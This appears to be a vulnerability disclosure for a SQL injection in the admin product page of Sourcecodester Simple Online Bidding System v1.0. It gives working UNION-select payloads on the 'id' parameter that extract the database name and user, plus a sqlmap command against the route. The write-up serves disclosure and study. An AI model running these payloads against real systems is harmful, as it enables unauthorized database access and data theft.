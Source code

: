 SQL injection vulnerability exists in Sourcecodester Simple Online Bidding System

official website:https://www.sourcecodester.com/php/14558/simple-online-bidding-system-using-phpmysqli-source-code.html

version:v1.0

route：/simple-online-bidding-system/admin/index.php?page=manage_product&id=1

injection parameter:$_Get['id']

#### 1.Vulnerability analysis

The parameter $_Get['id'] here is directly spliced into the sql statement after removing the null value. There is a sql injection point.

![image-20240515152854519](SourceCodester Simple Online Bidding System Sql Inject-4.assets/image-20240515152854519.png)

#### 2.Vulnerability verification and exploit

We can exploit vulnerabilities using methods such as federated query injection. The database name and any information about the database can be obtained through this injection point.

First, you can test that the number of queries is 9, and further test the echo positions of the 9 query results, as shown in the figure below.

```
page=manage_product&id=-2+union+select+1,2,3,4,5,6,7,8,9%23
```

![image-20240515153055682](SourceCodester Simple Online Bidding System Sql Inject-4.assets/image-20240515153055682.png)

Then you can select 2 and 3 as the echo positions, modify the payload to query the database name and current database user name.

```
page=manage_product&id=-2+union+select+1,2,database(),user(),5,6,7,8,9%23
```

![image-20240515153217759](SourceCodester Simple Online Bidding System Sql Inject-4.assets/image-20240515153217759.png)

We can also use sqlmap to conduct injection point testing. The test results are shown in the figure below. There are also SQL injection vulnerabilities that can be exploited.

```
python sqlmap.py -u "http://x.x.x.x/admin/index.php?page=manage_product&id=1" --cookie="PHPSESSID=xxxxxxxxxxxxxxxxxxxxx" --batch
```

![image-20240515161632226](SourceCodester Simple Online Bidding System Sql Inject-4.assets/image-20240515161632226.png)